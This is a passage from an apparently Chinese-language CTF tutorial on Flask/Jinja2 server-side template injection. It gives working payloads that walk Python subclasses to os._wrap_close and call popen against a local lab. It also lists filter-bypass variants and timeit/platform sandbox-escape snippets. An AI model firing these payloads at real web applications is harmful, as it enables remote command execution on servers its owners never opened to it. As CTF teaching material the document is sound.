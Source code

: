 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118]。 
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118]} }
```
![flask os wrap close](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/flask_os_wrap_close.png)

这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__} }
```

此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下。
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()} }
```
![popen read](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/popen_read.png)
此时便可以看到命令已经执行。如果是在linux系统下便可以执行其他命令。此时我们已经成功得到权限。进下来我们将进一步简单讨论如何进行沙箱逃逸。

## 5.3 ctf中的一些绕过tips
没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1. 过滤[]等括号
   `使用gititem绕过。如原poc {{"".class.bases[0]} }`

   `绕过后{{"".class.bases.getitem(0)} }`

2. 过滤了subclasses，拼凑法
   `原poc{{"".class.bases[0].subclasses()} }`

   `绕过 {{"".class.bases[0]'subcla'+'sses'} }`

3. 过滤class
   使用session

  ` poc {{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]} }`

   多个bases[0]是因为一直在向上找object类。使用mro就会很方便
   
   ```
   {{session['__cla'+'ss__'].__mro__[12]} }
   ```
   或者
   ```
   request['__cl'+'ass__'].__mro__[12]} }
   ```

4. timeit姿势

   可以学习一下 2017 swpu-ctf的一道沙盒python题，

   这里不详说了，博大精深，我只意会一二。

   ```
   import timeit
   timeit.timeit("__import__('os').system('dir')",number=1)

   import platform
   print platform.popen('dir').read()
   ```
